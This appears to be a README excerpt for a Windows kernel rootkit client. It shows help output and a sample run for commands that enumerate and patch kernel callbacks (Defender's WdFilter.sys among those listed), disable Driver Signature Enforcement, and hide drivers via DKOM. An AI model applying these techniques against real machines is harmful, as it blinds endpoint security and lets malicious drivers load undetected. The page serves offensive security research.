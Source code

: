 ```
PS C:\Users\memn0ps\Desktop> .\client.exe callbacks -h
client.exe-callbacks

USAGE:
    client.exe callbacks <--enumerate|--patch <PATCH>>

OPTIONS:
    -e, --enumerate        Enumerate kernel callbacks
    -h, --help             Print help information
    -p, --patch <PATCH>    Patch kernel callbacks 0-63
```

```
PS C:\Users\memn0ps\Desktop> .\client.exe dse -h
client.exe-dse

USAGE:
    client.exe dse <--enable|--disable>

OPTIONS:
    -d, --disable    Disable Driver Signature Enforcement (DSE)
    -e, --enable     Enable Driver Signature Enforcement (DSE)
    -h, --help       Print help information
```

```
PS C:\Users\memn0ps\Desktop> .\client.exe driver -h
client.exe-driver

USAGE:
    client.exe driver <--hide|--enumerate>

OPTIONS:
    -e, --enumerate    Enumerate loaded kernel modules
    -h, --help         Print help information
        --hide         Hide a driver using Direct Kernel Object Manipulation (DKOM)
```

## Enumerate and Patch Kernel Callbacks

```
PS C:\Users\memn0ps\Desktop> .\client.exe callbacks --enumerate
Total Kernel Callbacks: 11
[0] 0xffffbd8d3d2502df ("ntoskrnl.exe")
[1] 0xffffbd8d3d2fe81f ("cng.sys")
[2] 0xffffbd8d3db2bc8f ("WdFilter.sys")
[3] 0xffffbd8d3db2bf8f ("ksecdd.sys")
[4] 0xffffbd8d3db2c0df ("tcpip.sys")
[5] 0xffffbd8d3f10705f ("iorate.sys")
[6] 0xffffbd8d3f10765f ("CI.dll")
[7] 0xffffbd8d3f10789f ("dxgkrnl.sys")
[8] 0xffffbd8d3fa37cff ("vm3dmp.sys")
[9] 0xffffbd8d3f97104f ("peauth.sys")
[10] 0xffffbd8d43afb63f ("Eagle.sys")
```
